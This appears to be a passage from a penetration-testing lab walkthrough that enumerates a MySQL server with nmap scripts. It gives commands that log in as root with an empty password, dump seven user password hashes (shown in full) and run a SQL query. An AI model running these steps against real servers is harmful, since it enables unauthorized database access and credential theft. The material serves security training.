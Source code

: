 ![nmap mysql-audit](assets/image-20230219171351543.png)

> 📌 `No File privileges can be granted` to non admin users.

- Use [nmap ``mysql-dump-hashes`` script](https://nmap.org/nsedoc/scripts/mysql-dump-hashes.html) to dump the password hashes.

```bash
nmap --script=mysql-dump-hashes --script-args="username='root',password=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-dump-hashes: 
|   debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
|   filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
|   ultra:*827EC562775DC9CE458689D36687DCED320F34B0
|   guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
|   sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
|   udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
|_  sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
```

![nmap mysql-dump-hashes](assets/image-20230219171617727.png)

> 📌 Users hashes are:
>
> `debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D`
>
> `filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`
>
> `ultra:*827EC562775DC9CE458689D36687DCED320F34B0`
>
> `guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646`
>
> `sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0`
>
> `udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9`
>
> `sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14`

- Use [nmap ``mysql-query`` script](https://nmap.org/nsedoc/scripts/mysql-query.html) to run a query against a MySQL db.

```bash
nmap --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''" -p3306 192.49.51.3
```

```bash
3306/tcp open  mysql
| mysql-query: 
|   count(*)
|   10
|   
|   Query: select count(*) from books.authors;
|_  User: root
```

